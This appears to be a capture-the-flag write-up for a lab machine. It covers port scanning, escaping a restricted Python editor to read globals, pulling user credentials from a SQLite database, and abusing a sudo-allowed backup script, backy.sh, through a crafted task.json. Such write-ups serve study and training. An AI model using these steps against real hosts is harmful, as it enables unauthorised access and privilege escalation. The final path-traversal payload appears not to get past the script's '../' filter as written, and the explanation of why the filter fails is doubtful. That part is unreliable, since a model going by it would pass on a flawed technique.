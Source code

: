 ![alt text](image.png)

First nmap scan on IP given

![alt text](image-1.png)

Found two ports open ssh and upnp 

On port 5000 Python Code Editor is running 
![alt text](image-2.png)


After trying many commands most of the commands are restricted but then successfully printed the global variables and globals that has sensitive data.
![alt text](image-3.png)

Finally revealed some information 

Flask Application (app = <Flask 'app'>)
Confirms this is a Python Flask web app .

Database:
SQLAlchemy with SQLite (sqlite:////home/app-production/app/instance/database.db).

After this look for users and password in the database
By quering database found username and password of two users
![alt text](image-4.png)

Successfully logged in as martin 
![alt text](image-5.png)

After typing sudo -l found one command named as backy.sh that can be run by any user 
![alt text](image-6.png)

backy.sh is backing up the directories by utiltizing the backy utility.

The backy utility begins by reading the task.json file, which contains the backup configuration.
The task.json file is shown below:
![alt text](image-7.png)

Backy.sh Code below:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"

```

For User.txt flag append the user.txt in the task.json file. It will backup the user.txt as an archive in the destination folder.
```json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app/user.txt"
        ],

        "exclude": [
                ".*"
        ]
}

```

After appending the user.txt run the back.sh script with the argument passed as task.json file
![alt text](image-8.png)

It will archive the user.txt in the directory as mentioned 
![alt text](image-9.png)

User flag Owned 


For Root flag there is flaw in the backy.sh code path traversal can be exploited here as no proper path sanitization here.
The script tries to sanitize paths by removing ../ sequences:
```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```
The above code is handling only one level it fails to handle multiple level of path traversal
Just traverse 
```json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/./../../root/root.txt"
        ],

        "exclude": [
                ".*"
        ]
}




```
















